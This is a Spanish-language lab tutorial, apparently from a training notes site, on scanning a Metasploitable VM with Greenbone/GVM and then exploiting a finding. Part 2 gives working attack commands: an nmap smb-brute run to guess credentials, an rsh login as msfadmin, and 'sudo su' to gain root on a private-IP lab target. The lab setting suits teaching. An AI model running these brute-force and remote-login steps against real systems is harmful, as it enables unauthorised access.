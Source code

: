 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Escanear host gvm

**Parte 1: Escanear un host en busca de vulnerabilidades**

1.  **Iniciar servicios GVM:**

    ```bash
    bashCopy codesudo gvm-start
    ```
2. **Acceder a Greenbone Security Assistant:**
   * Navegar a [https://127.0.0.1:9392](https://127.0.0.1:9392/)
   * Iniciar sesión con:
     * Usuario: `admin`
     * Contraseña: `kali`
3. **Escaneo del host Metasploitable:**
   * Navegar a Escaneos -> Tareas -> Asistente de tareas avanzadas.
   * Ingresar detalles y crear tarea para escanear Metasploitable.
4. **Ver informes y resultados:**
   * Esperar hasta que la tarea esté completa.
   * Acceder al informe y la pestaña Resultados.
5. **Interpretar resultados del escaneo:**
   * Hacer clic en la vulnerabilidad "El servicio rexec se está ejecutando" en la pestaña Resultados.

**Parte 2: Explotar una vulnerabilidad encontrada por GVM**

6.  **Descubrir nombres de usuario y contraseñas con Nmap:**

    ```bash
    sudo nmap -sV -p 445 -script smb-brute 172.17.0.2
    ```
7.  **Instalar cliente de shell remoto (RSH):**

    ```bash
    sudo apt-get install rsh-client
    ```
8.  **Iniciar sesión en Metasploitable usando RSH:**

    ```bash
    rsh -l msfadmin 172.17.0.2
    ```
9.  **Obtener acceso raíz:**

    ```bash
    sudo su
    ```
